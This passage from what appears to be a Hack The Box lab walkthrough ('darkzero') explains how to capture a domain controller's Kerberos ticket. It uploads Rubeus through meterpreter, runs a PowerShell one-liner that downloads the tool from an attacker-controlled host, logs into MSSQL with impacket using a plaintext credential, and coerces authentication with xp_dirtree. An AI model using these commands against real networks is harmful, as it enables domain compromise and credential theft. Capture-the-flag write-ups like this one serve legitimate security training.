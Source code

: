 
### Uploading to DC02

From your SYSTEM meterpreter:

```
cd C:\Users\Public
upload Rubeus.exe
```

Or via PowerShell:

```
shell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://YOUR_TUN0_IP:8000/Rubeus.exe','C:\Users\Public\Rubeus.exe')"
```

---

### Starting the Monitor

From the shell:

```
C:\Users\Public\Rubeus.exe monitor /interval:1 /nowrap
```

🎓 **Parameters Explained:**

- `monitor` - Watch for new Kerberos tickets  
- `/interval:1` - Check every 1 second  
- `/nowrap` - Don't wrap long output (important for base64 tickets!)

Rubeus is now watching...

```
[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs
```

---

### Triggering the Authentication

Open a new terminal and connect to DC01's MSSQL:

```bash
impacket-mssqlclient 'darkzero.htb/john.w:RFulUtONCOL!@DC01.darkzero.htb' -windows-auth
```

Execute the trigger:

```sql
xp_dirtree \\DC02.darkzero.ext\test
```

🎓 **What's happening behind the scenes?**

```
1. DC01's SQL Server tries to access \DC02.darkzero.ext	est
2. DC01 thinks: "I need to authenticate to DC02"
3. DC01 requests a Kerberos ticket from its KDC
4. KDC issues ticket to DC01$'s computer account
5. Rubeus (running as SYSTEM on DC02) intercepts the ticket!
```

---